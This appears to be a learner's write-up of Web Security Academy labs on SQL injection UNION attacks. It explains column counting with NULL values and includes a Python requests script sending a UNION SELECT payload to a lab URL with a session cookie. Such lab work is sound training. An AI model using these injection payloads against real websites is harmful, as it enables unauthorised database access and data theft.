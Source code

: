 If the number of nulls does not match the number of columns, the database returns an error, such as:
**All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.**

We use NULL as the values returned from the injected SELECT query because the data types in each column must be compatible between the original and the injected queries. NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 

```python
import requests

url = "https://0a57002d0324b68c80551c0400fa006c.web-security-academy.net/filter?category=Corporate+gifts"
payload = "' union select null, null, null--"
headers = {
    "Cookie": "Z1rPfgMpksacFX91FHT92YC7ir52LG3F"
}

res = requests.get(url + payload, headers=headers)

print(res.status_code)
print(res.text)
```

### Lab: SQL injection UNION attack, finding a column containing text

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. 

First, I used the payload `' UNION SELECT NULL, ..., NULL--` to determine the number of columns. After testing with four NULL values, the web  returned a 500 error, which means there are 3 columns.

![alt text](image/image.png)
